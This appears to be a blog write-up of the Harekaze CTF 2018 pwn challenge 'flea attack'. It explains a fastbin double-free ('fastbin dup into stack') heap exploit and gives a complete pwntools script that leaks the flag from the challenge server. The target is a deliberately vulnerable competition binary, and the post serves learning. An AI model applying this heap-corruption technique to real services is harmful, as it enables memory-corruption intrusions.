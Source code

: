```yaml
---
layout: post
title: "flea attack"
---
```

# flea attack - harekaze ctf 2018 

nc problem.harekaze.com 20175

file: [flea_attack](https://problem.harekaze.com/3bac5c3a7bbcd9b58013de928a4e7ee5b7b6b4c59b0bb8ebbb5def90a7364f8b/flea_attack/flea_attack.elf)

(Pwn, 200 points)

i was unable to finish this problem during the ctf but got pretty close. i read a solution afterwards and ensured that i understood what i did wrong. here's my notes!

i started by checking the binary mitigations in place:

```
[*] '/home/vagrant/harekaze/flea-attack/flea_attack.elf'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x200000)
```

after running the binary i could tell this was likely a heap related memory corruption vulnerability since it was using malloc to store our name:

```
puts("1. Add name"1. Add name
)                                                                                                   = 12
puts("2. Delete name"2. Delete name
)                                                                                                = 15
puts("3. Exit"3. Exit
)                                                                                                       = 8
printf("> "> )                                                                                                          = 2
fgets(1
"1\n", 11, 0x7f46a20828e0)                                                                                      = 0x7ffe9ed3de1c
atoi(0x7ffe9ed3de1c, 0x7f46a2082963, 0x7f46a2084790, 0x7f46a1db5230)                                                  = 1
printf("Size: "Size: )                                                                                                      = 6
fgets(16
"16\n", 11, 0x7f46a20828e0)                                                                                     = 0x7ffe9ed3dddc
atoi(0x7ffe9ed3dddc, 0x7f46a2082963, 0x7f46a2084790, 0x7f46a1db5230)                                                  = 16
malloc(16)                                                                                                            = 0x900250
printf("Name: "Name: )                                                                                                      = 6
read(0fizbaz
, "fizbaz\n", 16)
```

likely a use after free of some kind since we can also free our name with the delete functionality. i could also tell that the address of our flag in memory is given to us:

```
\__libc_start_main(0x201430, 1, 0x7fff61b66a48, 0x201560 <unfinished ...>
setvbuf(0x7fcc663d08e0, 0, 2, 0)                                                    = 0
setvbuf(0x7fcc663d1620, 0, 2, 0)                                                    = 0
setvbuf(0x7fcc663d1540, 0, 2, 0)                                                    = 0
fopen("/home/flea_attack/flag", "r")                                                = 0xe6d010
fgets("flag{flea-attack}\n", 48, 0xe6d010)                                          = 0x204080
printf("Some comment this note:"Some comment this note:)                                                   = 23
read(0^C <no return ...>
--- SIGINT (Interrupt) ---
+++ killed by SIGINT +++
```

since there was no obvious way to redirect execution simply with the name allocations i decided to look into other options, i've been playing with the examples in team shellphish's [how2heap](https://github.com/shellphish/how2heap) repository lately and found [one](https://github.com/shellphish/how2heap/blob/master/fastbin_dup_into_stack.c) that was directly applicable to this challenge; 'fastbin dup into stack' which allows one to trick malloc into returning a chunk of memory in segments other than the heap.

i was able to get this working in the flea\_attack challenge by adding 3 names of the same size (call them a, b, and c) delete name a, followed by b, followed by a again, add name a again with the same size and the name <address of flag - some offset>, add name d, e of the same size and finally name f of the same size but this time with enough characters to fill our offset from <address of flag>. the only caveat is i needed to provide the fake chunk size in the debugger. i couldn't figure out how to do this with the pwn script. my idea was that i could provide the fake size with the initial prompt which asks the user for a comment. this much i was right about however i couldn't figure out how to provide a fake chunk size that malloc trusted. i kept getting errors like ```*** Error in './flea_attack.elf': malloc(): memory corruption (fast): 0x000000000184e240```. in gdb when using a fake size of 0x20 and a chunk size of 16 i was able to get the flag. the part i couldn't figure out in time was how to bypass the appending of the newline character in our comment which i was using to write our fake chunk size.looking back it was such a silly thing to get stuck on!! here's the code responsible for this functionality decompiled in hexrays:

```C
unsigned int original_fgets(char *buf, unsigned int sz) {
    char *result;
    unsigned int i;
    for (i = 0; ++i) {
        result = i;
        if (i >= sz - 1) break;
        read(0, buf+i; 1);
        if ( !( *(buf+i) ) ) {
            *(buf + i) = '\n';
LABEL_7:
            result = buf;
            *(buf + 1 + i) = 0;
            return result;
        }
        if ( *(buf + i) == '\n' ) {
            goto LABEL_7;
        }
    }
}
```

it looks like we had an 'fgets' written just for us! looking at this now all we had to do was figure out that if we wrote our own newline in our input then it would leave the bytes in our buffer as they are (null bytes) effectively allowing us to write 0x00000020 or whatever other size we'd like to our fake size and set up the chunk so that the fake size lands right at the end of our input.

here's my final solution:

```python
#!/usr/bin/python

from pwn import *

host = 'problem.harekaze.com'
port = 20175

REMOTE = True
#REMOTE = False
DEBUG = False
#DEBUG = True

def getpipe():
    if REMOTE:
        return remote(host,port)
    return process('./flea_attack.elf')

def add_name(name, sz):
    global r
    r.recvuntil('> ')
    r.sendline('1')
    r.recvuntil('ze: ')
    r.sendline('{}'.format(sz))
    r.recvuntil('me: ')
    r.sendline('{}'.format(name))
    r.recvuntil('ddr: ')
    return r.recvline()

def flag_name(name, sz):
    global r
    r.recvuntil('> ')
    r.sendline('1')
    r.recvuntil('ze: ')
    r.sendline('{}'.format(sz))
    r.recvuntil('me: ')
    r.sendline('{}'.format(name))
    log.success(r.recvuntil('ddr: '))
    return r.recvline()

def delete_name(addr):
    global r
    r.recvuntil('> ')
    r.sendline('2')
    r.recvuntil('ddr: ')
    r.sendline('{}'.format(addr))

gdbscript = '''
b original_fgets
'''

r = getpipe()

if DEBUG:
    gdb.attach(r, gdbscript)

r.recvuntil('note:')

r.sendline('a' * 94 + p8(0x71))

sz = 96

a = add_name('aaaaaaa', sz)
b = add_name('bbbbbbb', sz)
c = add_name('ccccccc', sz)

delete_name(a)
delete_name(b)
delete_name(a)

flag = 0x204056

log.info('flag is at: {}'.format(hex(flag)))

a = add_name(p64(flag), sz)

add_name('AAAA', sz)
add_name('BBBB', sz)

flag_name('A'*25, sz)
'''
[+] Opening connection to problem.harekaze.com on port 20175: Done
[*] flag is at: 0x204056
[+] Done!
    Name: AAAAAAAAAAAAAAAAAAAAAAAAA
    HarekazeCTF{5m41l_smal1_f1ea_c0n7rol_7h3_w0rld}
    Addr: 
[*] Closed connection to problem.harekaze.com port 20175
'''
```
